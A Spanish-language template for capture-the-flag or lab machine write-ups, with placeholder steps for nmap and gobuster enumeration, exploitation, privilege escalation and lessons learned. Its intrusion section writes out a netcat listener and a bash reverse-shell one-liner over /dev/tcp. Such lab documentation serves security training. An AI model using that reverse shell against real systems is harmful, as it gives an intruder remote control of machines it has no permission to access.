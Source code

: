 
---
# Writeup Template: Maquina `[Nombre_Máquina]`

- Tags: `[Etiqueta1]` `[Etiqueta2]` `[Etiqueta3]`
- Dificultad: `[Baja/Media/Alta/Insane]`
- Plataforma: `[HTB/VulnHub/TryHackMe/Dockerlabs/HackMyVM/etc]`

---
## Enlace al laboratorio
`[Enlace_Descarga_o_Acceso]`

## Configuración del Entorno
```bash
# Comandos para desplegar el laboratorio
[comando_descompresion] [archivo_laboratorio]
[comando_despliegue] [configuracion]
```

---

## Fase de Reconocimiento

### Direccion IP del Target
```bash
[IP_TARGET]
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 [IP_TARGET] 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py [IP_TARGET]
# TTL: [Valor] -> [Sistema_Operativo]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t [IP_TARGET] -p [Rango_Puertos]

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn [IP_TARGET] -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p[Puertos_Abiertos] [IP_TARGET] -oN targeted
```

**Servicios identificados:**
```bash
# Aqui los servicios
```
---

## Enumeracion de [Servicio  Principal]
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://[IP_TARGET]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p [PORT] [IP_TARGET]
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] [Opciones_Adicionales]
```

**Hallazgos Relevantes:**
```bash
# Aqui las rutas importante
```

### Descubrimiento de Archivos
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] -x [Extensiones]
```

- **Hallazgos**:
```bash
/admin (Status: 200) [Size: 1534]
/backup (Status: 301) [Size: 315]
```

### Credenciales Encontradas
- Usuario: `[Usuario]`
- Contraseña: `[Contraseña]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
[Descripción breve del método de explotación]

### Ejecucion del Ataque
```bash
# Comandos para explotación
[comando_explotacion]
```

### Intrusion
Modo escucha
```bash
nc -nlvp PORT
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/IP_TARGE/PORT <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
id
sudo -l
find / -perm -4000 2>/dev/null
```

**Hallazgos Clave:**
- Binario con privilegios: `[Binario]`
- Credenciales de usuario: `[Usuario]:[Contraseña]`

### Explotacion de Privilegios

###### Usuario `[ Nombre-Usuario ]`:

```bash
# Comando para escalar al usuario: ( root )
[comando_escalada]
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```

---

## Lecciones Aprendidas
1. [Lección 1]
2. [Lección 2]
3. [Lección 3]

## Recomendaciones de Seguridad
- [Recomendación 1]
- [Recomendación 2]
- [Recomendación 3]

